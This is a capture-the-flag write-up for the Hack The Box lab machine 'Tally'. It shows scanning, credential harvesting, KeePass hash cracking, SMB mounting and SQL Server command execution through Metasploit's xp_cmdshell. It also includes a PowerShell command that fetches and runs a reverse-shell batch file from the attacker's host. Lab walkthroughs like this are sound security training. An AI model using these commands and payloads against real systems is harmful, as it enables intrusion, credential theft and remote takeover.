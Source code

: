 # Tally
#### 10.10.10.59
###### Dotaplayer365


```
nmap 10.10.10.59

PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
81/tcp   open  hosts2-ns
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
808/tcp  open  ccproxy-http
1433/tcp open  ms-sql-s
```


Checking the port 80 shows us that its a Sharepoint server.

<kbd><img src="https://github.com/jakobgoerke/HTB-Writeups/blob/master/Tally/images/Website.PNG"></kbd>


When in Thermopylae call a SPartan
Resource: http://github.com/sensepost/SPartan


<kbd><img src="https://github.com/jakobgoerke/HTB-Writeups/blob/master/Tally/images/Spartan.PNG"></kbd>

One of the pages we find has something juicy!
```
...
[+] [147][200][62875b] - http://10.10.10.59/Shared%20Documents/Forms/AllItems.aspx
...
```
<kbd><img src="https://github.com/jakobgoerke/HTB-Writeups/blob/master/Tally/images/Allitems.PNG"></kbd>

Lets download "ftp-details.docx and see what its got
```
FTP details
hostname: tally
workgroup: htb.local
password: UTDRSCH53c"$6hys
Please create your own user folder upon logging in
```

Interesting

Now we know the ftp password.

We would just need to guess the ftp user

My general guesses as always are (root, ftpuser, ftp_user, ftp-user, ftp, user and afcourse anonymous logins)

You can call me a wordlist cause one of them worked!! :D

FTP Username: ftp_user
FTP Password: UTDRSCH53c"$6hys
```
ftp 10.10.10.59
Name (10.10.10.59:root): ftp_user
Password:
230 User logged in.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-31-17  10:51PM       <DIR>          From-Custodian
12-08-17  09:01AM       <DIR>          Intranet
08-28-17  05:56PM       <DIR>          Logs
09-15-17  08:30PM       <DIR>          To-Upload
09-17-17  08:27PM       <DIR>          User
226 Transfer complete.
```

As we remember it was instructed that the person create his own folder when he logs in.

So we go into Users and try searching for something nice

Under /User/Tim/Files we find something Nice !!
```
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
09-15-17  07:58PM                   17 bonus.txt
09-15-17  08:24PM       <DIR>          KeePass-2.36
09-15-17  08:22PM                 2222 tim.kdbx
```

Lets get brute forcing

Create a hash using keepass2john
```
root@kali:~/Hackthebox/Tally# keepass2john tim.kdbx 
tim:$keepass$*2*6000*222*f362b5565b916422607711b54e8d0bd20838f5111d33a5eed137f9d66a375efb*3f51c5ac43ad11e0096d59bb82a59dd09cfd8d2791cadbdb85ed3020d14c8fea*3f759d7011f43b30679a5ac650991caa*b45da6b5b0115c5a7fb688f8179a19a749338510dfe90aa5c2cb7ed37f992192*85ef5c9da14611ab1c1edc4f00a045840152975a4d277b3b5c4edc1cd7da5f0f
```

Hashcat GG
```
.\hashcat64.exe -m 13400 .\hash.txt .\rockyou.txt  --show
$keepass$*2*6000*222*f362b5565b916422607711b54e8d0bd20838f5111d33a5eed137f9d66a375efb*3f51c5ac43ad11e0096d59bb82a59dd09cfd8d2791cadbdb85ed3020d14c8fea*3f759d7011f43b30679a5ac650991caa*b45da6b5b0115c5a7fb688f8179a19a749338510dfe90aa5c2cb7ed37f992192*85ef5c9da14611ab1c1edc4f00a045840152975a4d277b3b5c4edc1cd7da5f0f:simplementeyo
```
Keepass Password: simplementeyo

After opening the kdbx with the new password we get some data which looks like this
```
TALLY ACCT share : Finance : Acc0unting
CISCO : cisco : cisco123
PDF Writer : 64257-56525-54257-54734 : 
```

Tally Account Share!!

Looks like a SMB share to me, lets check it out!

```
smbclient -L 10.10.10.59 -U Finance
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\Finance's password: 
Domain=[TALLY] OS=[Windows Server 2016 Standard 14393] Server=[Windows Server 2016 Standard 6.3]

	Sharename       Type      Comment
	---------       ----      -------
	ACCT            Disk      
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
```

Lets mount the ACCT share
```
mount -t cifs -o username=Finance,password=Acc0unting //10.10.10.59/ACCT /mnt
```

After a lot of scouring through the files

We find a exe called tester.exe

```
root@kali:/mnt/zz_Migration/Binaries/New folder# strings tester.exe 
...
DRIVER={SQL Server};SERVER=TALLY, 1433;DATABASE=orcharddb;UID=sa;PWD=GWE3V65#6KFH93@4GWTG2G;
...
```

Looks like SQL Creds to me xD

Launchint Metasploit!

**user.txt**

```
msf > use auxiliary/admin/mssql/mssql_exec
msf auxiliary(mssql_exec) > set CMD cmd.exe /c type C:\\Users\\Sarah\\Desktop\\user.txt
msf auxiliary(mssql_exec) > set PASSWORD GWE3V65#6KFH93@4GWTG2G 
msf auxiliary(mssql_exec) > set RHOST 10.10.10.59
msf auxiliary(mssql_exec) > show options

Module options (auxiliary/admin/mssql/mssql_exec):

   Name                 Current Setting                                  Required  Description
   ----                 ---------------                                  --------  -----------
   CMD                  cmd.exe /c type C:\Users\Sarah\Desktop\user.txt  no        Command to execute
   PASSWORD             GWE3V65#6KFH93@4GWTG2G                           no        The password for the specified username
   RHOST                10.10.10.59                                      yes       The target address
   RPORT                1433                                             yes       The target port (TCP)
   TDSENCRYPTION        false                                            yes       Use TLS/SSL for TDS data "Force Encryption"
   USERNAME             sa                                               no        The username to authenticate as
   USE_WINDOWS_AUTHENT  false                                            yes       Use windows authentification (requires DOMAIN option set)

msf auxiliary(mssql_exec) > run
[*] 10.10.10.59:1433 - The server may have xp_cmdshell disabled, trying to enable it...
[*] 10.10.10.59:1433 - SQL Query: EXEC master..xp_cmdshell 'cmd.exe /c type C:\Users\Sarah\Desktop\user.txt'
 output
 ------
 be72362e8dffeca2b42406d5d1c74bb1

[*] Auxiliary module execution completed
```


=> SHELL:
Use veil (22) powershell meterpreter reverse tcp
Get code in Tally1.bat
Start Listner

use auxiliary/admin/mssql/mssql_exec
PASSWORD             GWE3V65#6KFH93@4GWTG2G 
RHOST                10.10.10.59

set CMD powershell.exe /c Invoke-WebRequest -Uri 10.10.14.198/Tally1.bat -OutFile C:\\Users\\Sarah\\rev.bat
run
set CMD cmd.exe /c C:\\Users\\Sarah\\rev.bat
run

=> upgrade to x64
use windows/local/payload_inject 
set payload windows/x64/meterpreter/reverse_tcp

=> Root Potato Doh!


![Alt test](https://media.giphy.com/media/hKNPxrffFH0GY/giphy.gif "Suuure")
